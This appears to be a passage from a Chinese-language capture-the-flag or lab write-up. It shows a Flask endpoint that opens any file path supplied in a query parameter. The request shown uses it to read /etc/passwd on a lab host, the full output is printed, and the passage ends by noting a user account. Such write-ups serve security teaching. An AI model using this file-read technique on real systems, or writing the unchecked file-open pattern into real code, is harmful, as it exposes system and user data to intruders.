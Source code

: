 ```python
@app.route("/file")
@auth.login_required
def file():
    filename = request.args.get('filename')
    try:
        with open(filename, 'r') as f:
            return f.read()
    except:
        return 'error'
```

访问 `http://10.13.37.11:5000/file?filename=/etc/passwd`

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
Debian-snmp:x:111:113::/var/lib/snmp:/bin/false
mysql:x:109:115:MySQL Server,,,:/nonexistent:/bin/false
```

证明可以实现文件读取

在 `/etc/passwd` 中，注意到这条记录

```plaintext
aas:x:1000:1000:Lyderic Lefebvre:/home/aas:/bin/bash
```
